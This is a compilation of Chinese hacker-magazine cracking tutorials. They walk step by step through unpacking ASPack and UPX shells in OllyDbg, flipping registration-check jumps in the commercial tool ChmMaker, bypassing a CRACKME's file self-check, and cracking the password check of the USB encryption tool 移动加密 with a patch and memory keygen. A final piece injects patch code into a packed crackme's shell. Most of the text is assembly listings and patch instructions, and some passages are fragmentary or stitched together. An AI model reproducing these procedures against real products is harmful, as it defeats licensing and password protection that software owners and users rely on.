输入了注册名、注册码，按下“确定”或者“注册”按钮的一刹那，软件会进行以下这个复杂的过程：

- 第一步：软件记录我们输入的注册信息。  
- 第二步：软件根据已经设定好的一套算法，对注册名或者机器码等这些内容进行计算。  
- 第三步：上一步的计算结果通常就是真正的注册码了，此时软件会把我们输入的注册码和真正的注册码进行比较。  
- 第四步：在经过比较后，软件会根据比较的结果来判断注册是否成功……（右栏上半部分）

### X 加油站：普通软件与重启验证型软件

为了方便大家的理解，我们把这两类软件放在一起做一个简单的比较。我们按照软件注册验证方式的不同，将软件分为了“普通型”软件和“重启验证”型软件。这两类软件最主要的区别就是在注册码的验证方式上……


图1下方继续说明：了解了关于重启验证软件的基本情况后，我们来分析软件是通过怎样的一个办法来实现在软件第二次运行时对注册码进行检验，而不是像普通的输入注册码之后立刻进行比较……

### X 加油站：注册码的处理

1. 普通类型软件：将我们输入的注册码保存在内存中，以便随时调用。  
2. 重启验证型软件：将我们输入的注册码、其它注册信息保存在注册表中或特定文件中，当软件重新运行时读取相关信息来实现验证。

小菜们一定要牢牢记住这两种软件对注册码不同的处理方式，因为这是产生它们不同的主要原因。两种软件的不同，确实是由于对注册码处理方式的不同所引起的。文中进一步举例注册表路径（如 `HKEY_CURRENT_USER\Software`）以及键值存放方式来说明重启验证机制。

……信息。当然了，在输入注册码之前这个键值中的值是空的，如果小菜输入了注册名 `xfans` 以及注册码 `1234`，那么此时注册表中的相关键值中的数据就发生变化了：此时 `regno` 中的内容是 `1234`，`regname` 中的内容则变为 `xfans`。……软件在记录了相关的注册信息后，会在特定的文件夹中建立一个用于存放注册信息的文件，一般来说以文本文件为主。……程序会自动读取特定文件中相对应的内容，依此来提取保存在其中的注册信息。……

经过一番阐述和解释之后，我们再进行一个简单的总结：普通软件与重启验证型软件的区别在于对输入的注册信息采取了不同的处理方式。……普通软件将我们输入的注册信息存放在了内存当中并立即对这些信息进行验证；而重启验证型软件则将输入的注册信息存放在指定位置之中（如注册表键值或文件），并在软件再次运行时读取并验证。

### X 加油站：关于重启验证型软件的破解

讲到了这里，小菜们一定很关心这类软件的破解方法了。……虽然重启验证型软件有它的特别之处，但是作为注册码验证的最核心部分，也就是在“比较注册码”这一点上则与普通软件没有区别。……所以，我们还是可以采用以往对付普通软件的方法来对付它，重点是寻找对注册码进行判断的关键语句、关键跳转并进行修改。

不过我们也要注意，因为对注册码验证的顺序是不同的，所以关键代码的位置也会发生变化。普通软件的关键代码可能在整个代码中间，而重启验证型软件的关键代码则有可能在整个代码靠前的位置。……

好了，小菜们听了这么一大篇的讲解是不是已经有些头晕了，那让我们来点提神的吧。……今天我们要用到的软件，不仅可以让我们接触重启验证型软件的破解方法，还能够顺便复习一下脱壳，可谓是一举两得。……

身经百战的小菜们熟练地准备好工具，按照流程第一步应检查软件是否加壳。使用 `PEiD` 检查后显示为 `ASPack 2.12 -> Alexey Solodovnikov`，如图2。还好 ASPack 2.12 是一款压缩壳。……


图2

……对于压缩壳比较合适的方法是“ESP 定律法”和“脚本脱壳法”。不过考虑到 ASPack 2.12 的脱壳脚本，决定先用“ESP 定律法”来解决。使用 OD 载入目标软件后，停在如下代码处：

```asm
0057F001  > 60             pushad
0057F002    E8 03000000    call 0057F00A
0057F007    E9 EB045D45    jmp 45B4F4F7
0057F00C    55             push ebp
0057F00D    C3             retn
0057F00E    E8 01000000    call 0057F014
```

开始单步跟踪（按 F8），注意寄存器窗口数值变化。跟踪 1、2 步后会发现有些数值变红，重点关注寄存器 `ESP` 的值（例如 `0012FFA4`），然后在 OD 命令行输入 `dr 0012FFA4` 并回车使其生效。


图3

此时按 F9 让程序在 OD 中运行，由于设置断点，程序停在以下代码处：

```asm
0057F3B0   75 08           JNZ SHORT ChmMaker.0057F3BA
0057F3B2   BB 01000000     MOV EAX,1
0057F3B7   C2 0C00         RETN 0C
0057F3BA   68 2C1C4D00     PUSH ChmMaker.004D1C2C
0057F3BF   C3              RETN
```

脱壳的关键点 OEP 就要出现了，现在要再一次使用单步跟踪的方法，按三次左右 F8 就可以运行至软件 OEP 了，中断在此：

```asm
004D1C2C  55            push ebp
004D1C2D  8BEC          mov ebp,esp
004D1C2F  83C4 F0       add esp,-10
004D1C32  53            push ebx
004D1C33  B8 AC184D00   mov eax,004D18AC
```

## X加油站：ESP 定律脱壳法中断点的设置

ESP 定律需要用到一个特殊的断点，这与我们平时使用 F2 设置的普通断点是不同的。文中采用了在命令行输入命令的方法来设置软件断点；如果觉得麻烦，也可以在寄存器窗口中对 ESP 地址项进行右键菜单设置，跟随到数据窗口后再转到内存窗口，选择第一排后设置断点/硬件访问/WORD 等，亦可达到同样效果。

来到 OEP 后，后面的工作就太简单了，利用 OD 的脱壳功能就能够轻松将软件壳脱掉。操作方法依次是：选中 OEP 处代码（如 `004D1C2C 55 DB 55`），再次单击右键选择 “Dump” 打开 Dump 窗口，保持选项默认并保存即可，如图4。


我们把脱壳后的文件命名为 “unpack”，OD 会将该文件保存在原文件目录下。此时还有一个非常重要的步骤不能忘记：检验脱壳是否成功。检验标准主要有两点。

- 使用 PEID 检查脱壳后的文件，显示的是编写该程序的语言，例如 vb、vc 等。
- 运行脱壳后的程序，程序能够正常运行，没有报错，也没有功能缺失。

（2）运行脱壳后的程序，该程序能够正常运行，没有任何错误或者软件没有任何功能上的缺失。那就用这两个标准来检验一下我们脱壳后的程序，先用 PEID 检验，很明显已经没有壳的影子了，而且可以确定软件是使用 Borland Delphi 编写的，如图5。再运行一下，很好，运行正常！脱壳成功！

到这里，脱壳的步骤就结束了，软件的壳被小菜们成功脱掉了！下一步，就要开始对软件做进一步分析了。我们把脱壳后的程序放在 OD 中，通过关键字符串定位关键代码，打开字符串查找功能后，发现提示“注册完成，请重新运行程序！”。这是典型重启验证型软件提示，因此从该字符串下手并双击定位到对应代码处。

```asm
004CFD3C  |. B9 C4FD4C00   MOV ECX,44.004CFDC4
; 提示
004CFD41  |. BA CCFD4C00   MOV EDX,44.004CFDCC
; 注册完成，请重新运行程序！
```

这段代码还不能够说明什么问题，我们需要向上看看。

```asm
004CFCED  |. BA 90FD4C00   MOV EDX,44.004CFD90
; Software\ChnMaker
004CFCF2  |. 8BC3          MOV EAX,EBX
004CFD07  |. 8B4D FC       MOV ECX,DWORD PTR SS:[EBP-4]
004CFD0A  |. BA ACFD4C00   MOV EDX,44.004CFDAC
; RegUser
004CFD0F  |. 8BC3          MOV EAX,EBX
004CFD11  |. E8 8674F9FF   CALL 44.0046791C
004CFD27  |. BA BCFD4C00   MOV EDX,44.004CFDBC
; RegNo
004CFD2C  |. 8BC3          MOV EAX,EBX
004CFD3A  |. 6A 40         PUSH 40
004CFD3C  |. B9 C4FD4C00   MOV ECX,44.004CFDC4
; 提示
004CFD41  |. BA CCFD4C00   MOV EDX,44.004CFDCC
; 注册完成，请重新运行程序！
```

不要被花哨代码迷惑，先看注释部分。除“注册完成”提示外，更关键的是 `RegUser` 和 `RegNo`，这两处很可能对应注册信息存放位置。由此推断软件将输入的注册信息保存在注册表中这两个子键里。

接下来的过程是重点：重新用 OD 载入脱壳后的软件，打开字符串参考窗口，不要盲目搜索，直接查找 `RegUser` 或 `RegNo` 任一提示即可。文中以下以 `RegNo` 为例继续操作。

这时候会发现 OD 会找到两处，可以分别跟进一下看看。小菜会发现两处出现“RegNo”的地方，一处是我们上面这段代码中出现过的，不用过多分析，另一处则来到了一个新的地方。

```asm
004D0B86  BA 040C4D00    MOV EDX,44.004D0CD4
; RegNo
004D0B8B  8BC3           MOV EAX,EBX
004D0B8D  E8 3666F9FF    CALL 44.004671C8
004D0B92  8B45 F8        MOV EAX,DWORD PTR SS:[EBP-8]
004D0B95  50             PUSH EAX
004D0B96  8D4D F4        LEA ECX,DWORD PTR SS:[EBP-C]
004D0B99  BA E40C4D00    MOV EDX,44.004D0CE4
; chmmakerChina
004D0B9E  A1 E874D000    MOV EAX,DWORD PTR DS:[4071E8]
004D0BA3  E8 BCFFFCFF    CALL 44.004A0864
004D0BA8  8B55 F4        MOV EDX,DWORD PTR SS:[EBP-C]
004D0BAB  58             POP EAX
004D0BAC  E8 1B30F3FF    CALL 44.004048CC
004D0BB1  75 07          JNZ SHORT 44.004D0BBA
004D0BB3  C605 E4714D00  MOV BYTE PTR DS:[4071E4],1
004D0BBA  8BC3           MOV EAX,EBX
```

这段代码又该怎么分析呢？……简单地分析代码流程，寻找关键代码。注意这一段很长的代码，明晰地告诉大家这段代码的作用就是对注册码进行检验的……很快就发现这段代码中只有一句跳转语句：`004D0BB1 75 07 JNZ SHORT 44.004D0BBA`。


图6

- `75 07 JNZ SHORT 44.004D0BBA`，这句代码究竟能不能作为破解的关键呢？赶紧试验一下，使用 OD 的汇编功能将这句代码修改为 `JZ SHORT 44.004D0BBA`……软件提示我们注册成功了！

## X加油站：关于注册信息的存放位置

> 文中直接告诉大家软件将注册信息存放在了注册表中……进入注册表，查找 `Software\ChmMaker`，找到默认、RegUser、RegNo 等键值，即可对应输入的注册名和注册码。对于将注册信息保存在文件中的类型，一般也会在安装目录下建立专用文件。

本文中我们使用的是暴力破解的方法来实现破解的……从代码上看我们找到了关键的跳转语句并对它进行修改，这是破解成功的关键。还有一个问题要注意，重启验证型软件由于对注册码验证方式的特殊，导致普通分析手段效果有限，关键在于分析思路。


## 从零开始学破解之（十九）

### “重启软件的厉害绝艺之‘自效验’”

经过上一节课的学习，我们对重启验证型软件有了一个很具体的认识……不过在接触新的知识之前，还是有必要进行一个简单的复习。那么“重启验证型软件”究竟有哪些地方需要我们注意呢？

“实战识软件类型”的确定，针对不同类型的软件需要不同的分析、破解方法，所以只有认清了软件的类型才能做到对症下药。重启验证类软件的特征是非常明显的……所以特殊的提示信息，就是判断软件类型的依据。

其次是注册流程的分析。重启验证软件的注册验证流程与普通软件是不同的……可以认为，注册流程分成了以下两个部分：

- 收集注册信息。
- 验证注册信息。

接着是关键代码的定位。软件的破解是通过修改代码实现的，被我们修改的代码一般叫做“关键代码”……所以通过单步跟踪的方法，仔细地跟踪和分析还是很容易定位关键代码的。

以上三点就是重启验证型软件与其它类型软件不同的地方……也是非常令我们头疼的——“自效验”！

“自效验是什么东西呢？”小菜们疑惑地问道。既然大家对这个东西不是很熟悉，那就让我们一起来了解神秘的“自效验”吧！


修改后的软件就是不能成功运行。这个时候小菜们顿时慌了手脚，该怎么办呢？对于这一幕相信大家都非常熟悉了……出现这个情况的大致原因，正是我们遇到了软件的“自效验”。

## X加油站：引起修改后软件不能正常运行的原因

讲到这儿小菜们突然恍然大悟，很大的兴致，因为在大家破解的过程中经常会遇到软件不能正常运行的情况。除了刚才介绍的“自效验”会引起软件不能正常运行外，还有哪些常见原因会引起修改后的软件不能正常运行呢？

- 脱壳后没有修复。  
  这是常见的一个引起软件不能正常运行的原因……所谓脱壳后的修复就是把脱壳后的软件重新包装一下……否则软件是没有办法正常运行的。

- 修改代码破坏了堆栈平衡。  
  在我们破解的过程中肯定需要修改软件当中的代码，但是问题出现了。在修改代码的时候如果破坏了堆栈的平衡，也很容易导致软件不能够正常运行……

## 一、理论篇

### 1．什么是自效验

“自效验”，一般也叫做“自校验”……那么，这个听起来很专业的“自效验”究竟是怎样一个东西呢，在破解实践当中又是指哪一种具体的情况呢？

大家可能都遇到过类似这样的情况：当我们尝试破解某一款软件时，会去对软件进行脱壳或者对软件代码进行修改……然而当我们准备享受胜利时，却发现被脱壳或修改代码后的软件不能运行了……不论怎样操作，修改后的软件就是不能成功运行。

以上两点就是引起软件不能正常运行的最常见原因……回到正题上来，继续来说我们的“自效验”。简单地说，自效验是软件的一种自我保护机制，当然也就是软件作者为我们设置的一个“陷阱”。一般来说软件运行时，其中的“自效验”功能也会实时检查自身，一旦发现软件自身发生了一些变化就会作出反应，这些反应正是导致软件不能够正常运行的原因。

“原来是这样”，小菜若有所思地说道，那么自效验的原理又是什么呢？

### 2．自效验的原理

这又是一个小菜最关心的问题，“自效验的原理”也就是软件的“自效验”是通过怎么样的一个方式实现的？而实现自效验的途径又是什么呢？

最常见的软件自效验是通过检验文件大小的方式来实现的……如果程序文件的大小发生了变化，“自效验”的开关就被打开了，后果可想而知，软件不能够正常运行。

通常软件被加了壳之后其大小会发生变化，并且“壳”最基本的一个作用就是“压缩程序代码”。同样的道理，当软件的壳被脱掉后，因为原本附加在其上的壳没有了，被压缩过的代码也恢复到以前的状态，程序文件大小也就会随之发生变化。所以，很多软件很快就能根据文件大小判断程序是否被修改过，具体而言就是程序是否被脱壳了。一旦软件自身的“自效验”发现程序被脱壳了，就会立即将软件保护起来，即导致软件不能正常运行。

对于修改代码之后出现软件不能运行的情况，大部分也是由于这个原因造成的。因为修改任意一行代码，都会导致程序文件大小的变化。只要文件大小发生变化，保护程序立即起效。其原理还是非常简单的：软件一般采用对比的方法来检验自身大小是否发生变化。软件的自效验程序首先会将自身大小作为一个固定值储存在代码当中；当软件每一次运行时都会读取一次当前自身文件的大小，并将此时得到的值与先前设定的值进行比较，若不相同则启动保护。

以上的验证方法是最基础的一种自效验方式，有很多不足。因为其核心内容只是简单地将两个数值进行比较，虽然很有效但是也容易出现错误，并且不够精密。随着技术的进步，一些常用的加密算法也被应用到了“自效验”中。最著名的莫过于 CRC32 和 MD5 算法。由于这种算法的精准性以及计算结果的唯一性，使得此类算法被大量应用于软件的自效验之中。

### 3．自效验的解决

如何解决问题才是小菜们最关心的。如果在实践当中碰到了有自效验的软件应该如何解决呢？还是先从自效验的流程开始分析。一般来说软件的“自效验”是按照以下过程进行的：

- 当程序运行的时候，自效验的工作就开始了。
- 自效验开始对程序做一个全方位检测，收集程序文件的大小信息。
- 将检测到的当前程序文件大小与程序当中设定的相关数值进行比较。
- 如果发现程序文件大小发生了变化，就启动程序保护措施，阻止程序继续运行。

分析了一个大概流程后，可以发现它与注册验证流程有几分相似：核心同样是“比较-判断”。所谓比较，就是将相关的两个值进行对比；所谓判断，就是按照比较结果（相等或不等）来做出不同反应。

还要结合对付软件注册验证时的情况。对于现在小菜们掌握的“暴力破解”来说，针对软件的注册算法、注册码如何比较等问题我们都可以不予考虑，直接忽略掉这些细节，修改相应代码即可实现破解目的。那么如何把这个技术用于对付软件“自效验”上呢？

再来看自效验流程，注意最后一步：程序会根据上一步对文件大小的比较结果，来做出是否允许软件继续运行的判断。这一点和注册验证的最后一步几乎完全一样。我们可以照搬对付注册验证的做法来对付自效验，关键是让程序对检测结果不能做出正确判断，从而达到破解“软件自效验”的目的。

## 二、实践篇

具体的解决办法需要在实践当中切身体验才能更好理解。下面以带自效验功能并加壳的 CRACKME 为例，使用 OD、PEID 等工具进行分析。首先运行程序可见正常提示，然后用 PEID 检查发现程序加了 ASPack 壳，后续即可按常见方式进行处理。


围绕今天主题，很快就能把该程序的压缩壳脱掉。使用 PEID 检查发现程序已经脱壳成功。运行脱壳后的文件时，出现“文件被非法修改！”的提示（图3）。


说道。大家注意，这就是典型的自效验了。虽然没有导致程序无法运行，但是这仅仅是表现出的方式不同而已。这里提示的“文件被非法修改”以及上文说到的软件无法运行，都是程序自效验作用的结果。现在问题就很明显了，程序发现了自身被改动，并作出了反应。我们肯定是不希望看到这一幕发生的，该如何操作才能解决这个问题呢？

### 1．解决软件自效验之“对比跟踪法”

先来解释一下什么叫做“对比跟踪法”。所谓“对比跟踪法”是解决软件自效验最基本的一种方法，其最为核心的内容就是将修改前与修改后的程序进行详细比较，继而寻找两者间的不同。

一般来说，通过对比的方法可以很快找出与自效验有关的代码。例如在分析跟踪的过程中发现，修改前的程序某一些跳转是没有实现的；而分析修改后的程序时，却发现原本没有实现的跳转突然发挥了作用。通过这一点就可以很明确地肯定，当前这句代码（一般都是跳转指令）肯定与软件的自效验有很大的关系，这句代码很有可能就是关键代码。

既然是对比法，那就要同时分析脱壳前与脱壳后的程序。小菜们突然有点犯难了，怎样才能同时调试两个程序呢？呵呵，解决办法非常简单，同时开启两个 OD 不就可以了吗？一个载入脱壳前的文件，一个载入脱壳后的文件。

我们先打开一个 OD 并载入脱壳前的文件，使用脚本或者单步跟踪法到达 OEP。注意，这时就不要进行脱壳了，运行到程序的 OEP 后就在 OD 的命令行中输入 `BP CreateFileA`，然后让程序运行（快捷键 F9）。由于我们输入的命令是一个断点命令，所以程序会中断在以下代码处：

```asm
7C801A24 > 8BFF        MOV EDI,EDI
7C801A26   55          PUSH EBP
```

这并不是我们要找的地方，按快捷键 ALT+F9，程序就回到了“自己的领空”（领空的概念已经在以前的文章中详细介绍过了）。来到了这里：

```asm
0040111C |. 3BF4                 CMP ESI,ESP
0040111E |. E8 0D030000          CALL crcdumpe.00401430
00401123 |. 8985 E0FEFFFF        MOV DWORD PTR SS:[EBP-120],EAX
00401129 |. 83BD E0FEFFFF FF     CMP DWORD PTR SS:[EBP-120],-1
00401130 |. 75 07                JNZ SHORT crcdumpe.00401139
```

暂时让程序停在这里，我们现在要打开第二个 OD 了。重新打开一个 OD 并载入我们刚才脱壳后的程序，同样在命令行中输入 `BP CreateFileA` 并让程序运行起来。由于断点的作用程序会被中断下来，故而被脱壳后的程序也会停在以下代码处：

```asm
0040111C |. 3BF4                 CMP ESI,ESP
0040111E |. E8 0D030000          CALL crcdumpe.00401430
00401123 |. 8985 E0FEFFFF        MOV DWORD PTR SS:[EBP-120],EAX
00401129 |. 83BD E0FEFFFF FF     CMP DWORD PTR SS:[EBP-120],-1
00401130 |. 75 07                JNZ SHORT crcdumpe.00401139
```

两个程序都停在了相同的位置，下面就要开始一步一步分析了，因为关键代码需要我们经过仔细比对才能被发现。

## X加油站：关于 CreateFileA

上面的过程说得太快了，小菜们有点跟不上了。上文中两次载入程序之后都用到了这样一句命令：`BP CreateFileA`，这句命令究竟是什么呢？

以前给大家说过 BP 指令的意思就是在目标函数上设置断点，那么 `BP CreateFileA` 就是在 `CreateFileA` 这个函数上设置断点。这个 CreateFileA 是干什么用的呢？其实这是一个很重要的函数，详细介绍就不多说了。这个函数在自效验当中最主要的用途就是检测当前文件的大小。现在知道我们为什么要设置 `BP CreateFileA` 这句断点了吧？目的就是让程序在准备检测自身大小的时候中断下来。接着经过跟踪与分析，就可以找到关键代码了。

现在两个 OD 中的程序都停在了相同的位置上，开始仔细跟踪，分别在两个 OD 中使用 F8 单步跟踪命令对程序的执行过程进行分析。我们的目的是找出两个程序中执行方式有所不同的代码。例如某一句代码在原程序中没有被执行，但是在新的程序中却被执行了。仔细跟踪这段代码，终于会发现两个程序中有一句代码的执行情况是不同的：`00401130 |. 75 07 JNZ SHORT crcdumpe.00401139`。在没有脱壳前的程序中，这个跳转语句是没有实现的；但是在脱壳后的程序中，这个跳转被实现了。大家在调试的时候就会发现，脱壳后的程序跳转语句被执行了。

结合以上分析，很显然这句代码就非常可疑了。这句代码是导致程序自效验起作用的代码吗？我们还需要做一个验证，那就是将这句代码进行修改，看看程序的运行情况会发生什么变化。这句代码很是讨厌，直接将它改掉，于是就把 `00401130 |. 75 07` 改为 `NOP`。同样是修改了代码，此时程序的自效验还会发现自身被修改并作出相应提示吗？

在 OD 中保存好程序修改，回到操作系统中运行我们刚才保存的程序看看。很奇怪，程序像吃错了药一般，提示我们“文件运行正常”，明明修改了代码呀，怎么程序就发现不了呢？第一次我们只是简单地进行了脱壳，就出现了“文件被非法修改”的提示信息；而现在我们已经把程序代码进行了修改，但程序却提示“文件运行正常”，这是为什么呢？其实问题很简单，那就是程序的自效验被我们彻底破解了。虽然程序还是能够发现自身代码被修改了，但是此时它已经不能作出任何反应了。

小菜们顿时觉得自效验解决起来是这么容易。没错，上述方法的确说明了一点：只要找对了地方，并进行了有效修改，效果是非常明显的。当然这很简单，但大家一定要明白，我们今天所做的试验只是最简单的一个练习，关于自效验的知识是非常丰富的。我们也可以很明显地看出，解决自效验并不是一件很困难的事，但是要定位与自效验相关的关键代码确实很不容易。本文中，我们使用 CreateFileA 这个函数成功定位出了关键代码所在，但所有方法都是有局限性的。对于不同类型的软件，需要采取不同的方法进行解决。

### 小提示：关于解决自效验过程中容易出现的问题

这一课的内容比较简单，但是却涉及了很多调试方面的知识点，以及一些我们不曾见到过的方法。小菜们第一次接触这些东西难免会出现问题。在文章最后我们把容易出现问题的地方做一个简单总结，以帮助小菜们更好地学习。

- 设置的断点不能中断程序。  

本文中，我们需要使用 `BP CreateFileA` 这句命令来设置断点，但是有的朋友会发现输入命令之后，运行程序并没有看到程序被中断。简单来说就是断点没有起效果。对于这个问题，一方面可能是因为输入的时候没有注意字母大小写，注意这个命令必须写成 `BP CreateFileA`，大小写必须按照这个格式。另一方面的原因就是输入完命令之后没有按下回车键。必须要知道，输入命令之后必须按下回车键。

所设置的命令才能够生效的。

### （2）程序中断的地址与文中的不符

很多朋友在调试的过程中会发现，当程序被中断之后会停在一个很陌生的代码处，例如：

```asm
7C801A24 > 8BFF        MOV EDI, EDI
7C801A26   55          PUSH EBP
```

而不是文中的：

```asm
0040111C |. 3BF4         CMP ESI, ESP
0040111E |. E8 0D030000  CALL crcdumpe.00401430
```

这个问题是由于程序中断后没有停在程序的领空，而是停在系统领空所造成的。关于领空我们就不再多说了，在以前的文章中曾经详细讲述。解决的办法也很简单，只需要按下 `Alt+F9` 组合键，就可以回到程序的领空了。如果输入的命令没有错误，返回程序领空后小菜们一定会看到和文中相同的代码了。

经过这一课的学习，我们认识了一个常见的破解保护方式“自校验”，现在我们就能够解释为什么有时候我们修改后的软件不能正常运行的原因了。对于“自校验”，最主要的不是如何去解决它，而是如何去寻找关键的代码。对于关键代码的定位，小菜们必须经过大量的练习才能够熟练掌握。好了，这节课的内容是比较简单的，但是自校验是目前很流行的一门技术，课后小菜们一定要多多练习哦！（文章中涉及到的工具 OD、PEID 和 CRACKME 已经收录于光盘中）

## 菜鸟来和我 Crack 移动加密

10℃誓言


我很早就使用移动加密来保护我的 U 盘了，看了黑客 X 档——到了 004AD555……今天我们就一起来破解它吧，希望本文能对你有所帮助。

第一步嘛，当然是查壳。使用 PEID 载入程序，检查的结果是“UPX 0.89.6 - 1.02 / 1.05 - 1.24 (Delphi) stub -> Markus & Laszlo”，如图1。


UPX 的壳很好脱，使用 ESP 定律……将脱壳后的程序保存为 ulockU.exe。再次使用 PEID 查壳，显示为“Borland Delphi 6.0 - 7.0”……然后打开 ulockU.exe 随便输入一个密码，弹出了“密码错误”的对话框，如图2。


使用 OD 载入 ulockU.exe，查找关键字“密码错误”，定位到 004AD555……在 004AD54E 处可以看到跳转。我们来到这个跳转位置看看，如图4，`JNZ 004AD54E` 的意思就是输入的密码错误就跳到错的地方。我们肯定不能让它跳转，双击这行将其改成 `JE 004AD54E`，或者直接使用 NOP 填充……如图5。将修改后的程序保存为 ulockU1.exe，享受下我们的劳动成果吧！


我们再来看看它是不是明码比较，还是来到刚才跳转的地方，定位的一句：

`004AD270  E8 6B77F5FF  CALL ulockU.004049E0`

下断点，也就是 F2，F9 运行程序，随便输入一个假密码结束（如图6）。


下面我们来制作文件补丁和内存注册机吧！使用的工具当然还是 KeyMake。如图7，需要说明的是，原文件是加壳的程序，而破解后的文件是修改了跳转的。下面我们来制作注册机，大家参照着图8所示就可以制作了，`004AD270  E8 6B77F5FF  CALL ulockU.004049E0`，指令长度为 5……

呵，我输入的是 1234，这时注意观察寄存器里的值，哈哈，发现 EAX 里已经有我们的真密码了，如图6。


## 从零开始学破解之（二十）

## SMC 破解大法

Talent Feng

上一节课学习了如何对付软件的另一种保护手段“自校验”，现在我们已经见识了软件常用的两种保护手段：加壳和自校验……

- 1. 跟踪程序的运行情况
- 2. 寻找程序运行出现异常的代码段
- 3. 定位代码段中关键的跳转语句
- 4. 对跳转语句进行对应的修改

从以上能够看出，对于自校验破解来说也不是一件非常困难的事……今天，我要为大家讲解的是一个更为高级的破解方法：SMC 破解大法……

解的方法，它就是 SMC 破解法。按照一般的顺序，我们现在就要开始给小菜介绍 SMC 破解法的相关概念和基本原理了……

## 第一章：实践篇

相信小菜们对于这个方法的原理多少还是有些耿耿于怀，在这里大家只用知道“SMC 破解法”就是“不脱壳破解法”就足够了……

### 第一步、真假脱壳

使用 PEID 检查一下 CRACKME，果然这个小程序被加壳了，使用的是 UPX 系列的壳。运行一下看看，任意输入一组注册码和注册序列码，弹出了一个“wrong”的提示窗口……


### X 加油站：ESP 脱壳法简易流程

首先使用单步跟踪的方法使程序一步一步运行，当寄存器中的 ESP 一栏的数据显示或变色时代表壳不再继续使用 F8 了（图2）。随后选中寄存器中的 ESP 一栏对应的数据，例如文中的 `0012FFA4`，在 OD 的命令行窗口中输入相应命令并回车，使断点生效。接着按 F9 运行，程序会中断在后续代码处，再用 F8 跟踪跳转到新的代码位置（图3、图4）。


目前我们所处的位置就是传说中的 OEP（程序原入口点）。以往在找到原入口点后常常需要脱壳，但此处强调 SMC 破解法并不一定要求脱壳，因此这里可不进行脱壳操作。

### 第二步、深入虎穴

此时我们位于未脱壳程序内部。一般情况下未脱壳不便继续分析，但由于已经到达 OEP，仍可继续查找关键提示信息。文中建议通过“字符串搜索”定位关键字符串（图5），并据此追踪到对应代码处。

```asm
004539F5  83FB 0A         cmp ebx, 0A
004539F8  75 E6           jnz short 004539E0
004539FA  3B7D EC         cmp edi, [ebp-14]
004539FD  75 0C           jnz short 00453A0B
004539FF  B8 943A4500     mov eax, 00453A94 ; "well done!"
00453A04  E8 6339FDFF     call 0042736C
00453A09  EB 0A           jmp short 00453A15
00453A0B  B8 A83A4500     mov eax, 00453AA8 ; "wrong"
00453A10  E8 5739FDFF     call 0042736C
```

为便于说明，文中将关键代码复制出来并分析，指出最关键的是一条跳转指令，需要围绕该分支逻辑判断正确与错误提示的触发条件。

```asm
004539FD  75 0C    jnz short 00453A0B
```


```asm
004539FF  B8 943A4500    mov eax, 00453A94 ; well done!
00453A04  E8 6339FDFF    call 0042736C
00453A09  EB 0A          jmp short 00453A15
00453A0B  B8 A83A4500    mov eax, 00453AA8 ; wrong
```

程序在这里对注册码验证的情况做了不同的处理，即在注册码不正确的情况下提示我们“wrong”，在注册码符合要求的情况下给出“well done”这样的提示！那么，程序是怎样实现这个判断过程的呢？小菜们一眼就看出了问题的关键，最关键的就是 `004539FD 75 0C jnz short 00453A0B`。

目前说这句代码就是关键代码还多少有些不确定，必须找到更直接的证据来证明它。如果是关键代码，那么这个跳转能否实现将直接影响到程序对注册情况的判断。分析可知这是一个 JNZ 跳转命令，ZF 不为零则跳转，也就是说当程序发现输入的注册码与正确算法的结果不相等时就会执行跳转。

若看这个代码后所跟的地址 `00453A0B`，我们到对应地址看：`00453A0B B8 A83A4500 mov eax, 00453AA8 ; wrong`。由此可确定 `004539FD 75 0C jnz short 00453A0B` 就是最关键的代码了。

按照以往思路，对于这种简单跳转指令，只需把它改成相反代码即可实现破解目的。比如把 `jnz short 00453A0B` 改成 `jz short 00453A0B`。但这里软件有壳，在壳未脱的状态下直接改代码会触发壳校验，出现“无法定位代码位置”等提示，因此还需更谨慎处理。

分析到这里，传统方法是先脱壳再改关键代码。本文将学习 SMC 破解法：在不脱壳的情况下进行修改。接下来要解决的是——不脱壳时如何把我们自己的代码写入程序并生效。

### 第三步、明知山有虎，偏向虎山行

我们此前知道在不脱壳情况下通常无法修改代码，但本节偏要迎难而上。先记录关键点：原始关键代码为 `004539FD 75 0C jnz short 00453A0B`，目标修改为 `004539FD 74 0C jz short 00453A0B`。明确两点后，继续分析如何在壳内实现写码。

记录好关键信息后，重新载入程序并在关键位置设断。注意这次在 ESP 定律触发时不要继续跟踪到 OEP，而是停在当前壳层位置，利用这里的空白区域完成代码注入与跳转。

此时这个步骤就不需要了！现在我们停在了以下代码处：

```asm
0046D67C  E9 6F66FEFF    jmp 00453CF0
0046D681  0000           add [eax], al
0046D683  009CD6 4600ACD6 add [esi+edx*8+D6AC0046], bl
0046D68A  46             inc esi
0046D68B  009C40 45000000 add [eax+eax*2+45], bl
```

只需要再单步跟踪一下就可去程序的 OEP，不过此时先停在这里。往这段代码之后有很大一段空白数据：

```asm
0046D692  0000  add [eax], al
0046D694  0000  add [eax], al
0046D696  0000  add [eax], al
0046D698  0000  add [eax], al
0046D69A  0000  add [eax], al
0046D69C  0000  add [eax], al
```

这段空白数据刚好可用于写入自己的代码。先写入：

```asm
0046D692  C605 FD394500 74   mov byte ptr [4539FD], 74
0046D699  E9 5266FEFF         jmp 00453CF0
0046D69E  0000                add [eax], al
```

方法很简单：将 `0046D692 0000 add [eax], al` 改为 `mov byte ptr [4539FD],74`，再把下一句改为 `jmp 00453CF0` 即可。

```asm
0046D692  C605 FD394500 74   mov byte ptr [4539FD], 74
0046D699  E9 5266FEFF         jmp 00453CF0
```

此外还需修改原本指向 OEP 的代码 `0046D67C E9 6F66FEFF jmp 00453CF0`，改成 `0046D67C EB 14 jmp short 0046D692`，先跳到我们写入的代码执行，再返回原流程。

最后保存修改结果（如“复制到可执行文件”并保存），即可完成壳内补丁。


图6

运行一下修改后的程序，任意输入一组注册信息，当我们按下“OK”按钮的时候，“Well Done”这个提示信息同时跳了出来。看到这个情况，小菜当然明白是什么意思了，我们已经成功地突破了这个 CRACKME 的注册防线。虽然任务已经完成了，但是小菜还是很纳闷，为什么这么一修改程序就能注册成功了呢？

## 第二章：理论篇

把一个程序破解掉所带来的成就感已经不能满足小菜了，因为大家都有了一种对任何疑问都要打破砂锅问到底的精神。看起来经过这么久的学习，大家的进步还是非常大的！SMC 破解法的原理是很复杂的，不过既然小菜们急切地想知道，那就用最简单的方式来给大家解释一下吧！

SMC 破解法的核心思想就是在不脱壳的情况下实现对软件的破解，这种方法一方面可以简化我们的破解过程，更重要的一点是对加密技术的挑战。虽然软件被加了壳，但是我们能够在不脱壳的情况下完成破解，这当然是技术上的飞跃了。回到我们的主题上来，SMC 破解法根据的原理是什么呢？

